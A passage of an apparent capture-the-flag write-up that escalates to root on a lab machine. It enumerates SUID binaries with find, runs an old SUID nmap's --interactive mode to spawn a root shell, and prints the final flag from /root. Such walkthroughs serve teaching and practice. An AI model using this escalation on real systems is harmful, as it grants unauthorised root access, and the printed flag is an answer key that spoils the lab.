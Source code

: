 ```
...
``` 

Those three services: FTP, Monit Linux, MySQL respectivly were listenning on local interface. Monit Linux caught my eye, I never dealt with it before. So I started googling for it but I quickly, got fed up. 

At this point I started looking for programs with SUID root privileges.
```
$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
$ 
```

`/usr/local/bin/nmap` looked like a good candidate, old versions of this software had --interactive option, which meant I could run command as root:
```
$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !id
!id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
waiting to reap child : No child processes
nmap> 
```

I ran `!sh` to start sh session as root: 
```
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
# 
```
